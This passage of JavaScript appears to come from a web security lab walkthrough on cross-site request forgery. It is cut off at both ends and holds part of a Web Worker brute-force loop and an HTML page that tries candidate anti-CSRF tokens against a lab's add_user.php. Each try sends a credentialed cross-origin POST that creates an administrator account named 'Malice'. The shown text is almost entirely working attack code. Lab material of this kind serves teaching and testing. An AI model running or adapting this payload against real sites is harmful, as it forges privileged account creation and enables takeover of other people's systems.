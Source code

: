 ```js
         return a
      }, []).join('&');
      http.send(queryParams);
   }

   function Terminator() {
      self.postMessage("Sir, I've finished... see you later");
      self.close();
      return;
   }

   // Brute Loop
   bruteLoop(tokens);

}, false);


```




#### Simple Brute Force
```js
<html>
   <body>
      <h1>Anti-CSRF Tokens to test</h1>
      <textarea id="tokens" rows="12" cols="60">
         1679091c5a880faf6fb5e6087eb1b2dc
      </textarea>
      <script>
         function bruteLoop(TList) {
            for (var i = 0; i < TList.length; i++) {
               console.info("Testing: " + TList[i]);
               XHRPost(TList[i]);
            }
         }

         function XHRPost(tVal) {
            var http = new XMLHttpRequest();
            var url = "http://{LABID}.csrf.labs/add_user.php";
            var token = tVal;
            params = {
               "name": "Malice",
               "surname": "Smith",
               "email": "malice@hacker.site",
               "role": "ADMIN",
               "submit": "",
               "CSRFToken": token,
            };
            http.open("POST", url, true);
            http.withCredentials = 'true';

            // Send the proper header information along with the request
            http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

            http.onreadystatechange = function () {
               if (http.readyState > 1) {
                  // We don't care about responses
                  // console.warn("Aborted " + token + " with status " + http.readyState);
                  http.abort();
               }
            };

            // Serialize the data without using JQuery
```